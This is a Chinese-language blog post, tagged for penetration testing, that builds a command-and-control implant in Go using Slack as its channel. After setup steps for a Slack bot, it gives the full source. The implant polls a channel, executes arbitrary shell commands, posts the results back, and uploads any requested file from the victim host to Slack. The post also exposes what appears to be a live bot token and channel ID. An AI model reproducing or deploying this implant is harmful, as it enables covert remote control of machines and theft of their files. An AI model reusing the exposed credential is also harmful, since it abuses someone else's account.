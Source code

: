 ```yaml
---
title: "Slack Golang C2"
date: 2020-10-03T23:57:50+08:00
draft: false
tags:
- go
- c2
- Slack
series:
-
categories:
- 渗透测试
---
```



最近在学golang，恰好看到demon分析的golang slack c2，便想着自己也来写一写。
<!--more-->

# 配置slack
注册账号什么的就不说了。访问 https://api.slack.com/ 点击 `Start Building`
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/dc3e5b61-4384-6b3c-0bf6-3c850bcd4716.png)

创建一个app
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/ea267bba-e73e-0625-3680-b40a02c7c70f.png)

左侧`OAuth & Permissions` -> `Scopes` 配置token权限，暂时先配置两个，之后用哪个再加。

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/aea99b7f-6fed-a6f8-079b-bf48c2667ac6.png)

然后往上翻点`Install App to Workspace`

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/697544f1-e014-6fb9-8504-173932481567.png)

点allow，然后会自动跳转到token界面，记住这个token。

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/84e2a010-7c5f-0bfa-9a48-970282378400.png)

```text
xoxb-1413293450689-1403506559507-aWLcahb6cGLZWGHF61QPV17S
```
创建一个channel
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/fade1c37-c2f2-2a59-4786-b8bdd3ed7f9b.png)


记住你的channel链接`https://app.slack.com/client/T01C58MD8L9/C01BS6GEUJH`中的`C01BS6GEUJH`
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/eb1412aa-4741-2fcd-e50f-9ab3f5117882.png)

通过 `/invite @myslackbot`把bot加到频道里。

然后在`https://api.slack.com/methods`是操作bot的所有api，先用`https://api.slack.com/methods/conversations.history/test`测试下获取聊天记录

配置好token和channel ID
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/5281e9f3-f145-d07d-e334-367dc2fd3bc9.png)

点test之后获取到聊天记录
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/cd6fd11a-84fa-eb73-a34b-4baa8f4d36b1.png)


![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/b68b1d1c-37b9-40f9-e99a-82cefdd50251.png)

简单的流程知道了，接下来通过golang来操作api，以及编写我们的C2。

# golang编写

```go
package main

import (
	"bytes"
	"fmt"
	"github.com/tidwall/gjson"
	"io"
	"io/ioutil"
	"log"
	"mime/multipart"
	"net/http"
	"os"
	"os/exec"
	"path/filepath"
	"strconv"
	"strings"
	"time"
)

const (
	HistoryApi  = "https://slack.com/api/conversations.history"
	PostMessage = "https://slack.com/api/chat.postMessage"
	FileUpload  = "https://slack.com/api/files.upload"
	Token       = "xoxb-1413293450689-1403506559507-aWLcahb6cGLZWGHF61QPV17S"
	Channel     = "C01BS6GEUJH"
)

var Timer = 10

func sleep() {
	fmt.Sprintf("sleep %s",Timer)
	time.Sleep(time.Duration(Timer) * time.Second)
}
func main() {
	for true {
		result := ApiGet(HistoryApi, "messages.0.text")
		if strings.HasPrefix(result.Str, "shell") {
			cmdRes := ExecCommand(strings.Split(result.Str, " ")[1:])
			ApiPost(cmdRes, PostMessage)
		} else if strings.HasPrefix(result.Str, "exit") {
			os.Exit(0)
		} else if strings.HasPrefix(result.Str, "sleep") {
			s := strings.Split(result.Str, " ")[1]
			atoi, err := strconv.Atoi(s)
			if err != nil {
				ApiPost(err.Error(), PostMessage)
			}
			Timer = atoi
		} else if strings.HasPrefix(result.Str, "download") {
			filename := strings.Split(result.Str, " ")[1]
			ApiUpload(filename)
		}	else {
			fmt.Println("no command")
		}
		sleep()
	}
}

func ExecCommand(command []string) (out string) {
	fmt.Println(command)
	cmd := exec.Command(command[0], command[1:]...)
	o, err := cmd.CombinedOutput()

	if err != nil {
		out = fmt.Sprintf("shell run error: \n%s\n", err)
	} else {
		out = fmt.Sprintf("combined out:\n%s\n", string(o))
	}
	return
}

func ApiGet(apiUrl string, rule string) gjson.Result {
	r, err := http.NewRequest("GET", apiUrl, nil)
	query := r.URL.Query()
	query.Add("token", Token)
	query.Add("channel", Channel)
	query.Add("pretty", "1")
	query.Add("limit", "1")
	r.URL.RawQuery = query.Encode()
	response, err := http.DefaultClient.Do(r)
	defer response.Body.Close()
	if err != nil {
		return gjson.Result{}
	}
	bytes, _ := ioutil.ReadAll(response.Body)
	//fmt.Println(string(bytes))
	return gjson.GetBytes(bytes, rule)
}
func ApiPost(text string, apiUrl string) {
	var r http.Request
	r.ParseForm()
	r.Form.Add("token", Token)
	r.Form.Add("channel", Channel)
	r.Form.Add("pretty", "1")
	r.Form.Add("text", text)
	r.Form.Add("mrkdwn", "false")
	body := strings.NewReader(r.Form.Encode())
	response, err := http.Post(apiUrl, "application/x-www-form-urlencoded", body)
	if err != nil {
		return
	}
	bytes, _ := ioutil.ReadAll(response.Body)
	ok := gjson.GetBytes(bytes, "ok")
	fmt.Println(ok)
}
func ApiUpload(filename string) {
	//fmt.Println(filename)
	// 创建表单文件
	// CreateFormFile 用来创建表单，第一个参数是字段名，第二个参数是文件名
	buf := new(bytes.Buffer)
	writer := multipart.NewWriter(buf)
	writer.WriteField("token", Token)
	writer.WriteField("pretty", "1")
	writer.WriteField("channels", Channel)
	//writer.WriteField("filetype", "text")
	formFile, err := writer.CreateFormFile("file", filepath.Base(filename))
	if err != nil {
		log.Fatalf("Create form file failed: %s\n", err)
	}

	// 从文件读取数据，写入表单
	srcFile, err := os.Open(filename)
	if err != nil {
		log.Fatalf("%Open source file failed: s\n", err)
	}
	defer srcFile.Close()
	_, err = io.Copy(formFile, srcFile)
	if err != nil {
		log.Fatalf("Write to form file falied: %s\n", err)
	}

	// 发送表单
	contentType := writer.FormDataContentType()
	writer.Close() // 发送之前必须调用Close()以写入结尾行
	_, err = http.Post(FileUpload, contentType, buf)
	if err != nil {
		log.Fatalf("Post failed: %s\n", err)
	}
	//all, err := ioutil.ReadAll(resp.Body)
	//fmt.Println(string(all))
}
```

看下效果

{{< bilibili BV1uk4y1C7oP >}}



自己偷偷摸摸实现了很多功能，就不放了，通过slack的API可以做很多事情。


**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**

